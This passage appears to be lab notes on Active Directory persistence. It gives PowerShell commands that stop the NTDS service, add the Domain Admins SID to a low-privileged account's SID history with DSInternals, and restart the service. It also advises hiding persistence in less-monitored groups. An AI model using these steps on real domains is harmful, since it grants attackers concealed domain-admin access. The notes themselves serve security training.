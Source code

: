 Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:
```
PS C:\Users\grace.clarke> Get-ADGroup "Domain Admins"
```

We could use something like Mimikatz to add SID history. 

However, the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history.

 In this case, we will use the DSInternals tools to directly patch the ntds.dit file, the AD database where all information is stored:
```
PS C:\Users\Administrator\exzh> Stop-Service -Name ntds -force
PS C:\Users\Administrator\exzh> Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit
PS C:\Users\Administrator\exzh> Start-Service -Name ntds
```
```ad-note
The NTDS database is locked when the NTDS service is running. 

In order to patch our SID history, we must first stop the service.

You must restart the NTDS service after the patch, otherwise, authentication for the entire network will not work anymore.
```

To confirm we go back to our low priviliged user and type:
```
PS C:\Users\grace.clarke> Get-ADUser grace.clarke -Properties sidhistory
```

## Persistance through Group Membership

The most privileged account, or group, is not always the best to use for persistence.

Privileged groups are monitored more closely for changes than others

If we want to persist through group membership, we may need to get creative regarding the groups we add our own accounts to for persistence:

- The IT Support group can be used to gain privileges such as force changing user passwords. Although, in most cases, we won't be able to reset the passwords of privileged users, having the ability to reset even low-privileged users can allow us to spread to workstations.

- Groups that provide local administrator rights are often not monitored as closely as protected groups. With local administrator rights to the correct hosts through group membership of a network support group, we may have good persistence that can be used to compromise the domain again.

- It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership over Group Policy Objects (GPOs), can be just as good for persistence.

### Nested Groups

A recursive group is a group that is a member of another group.

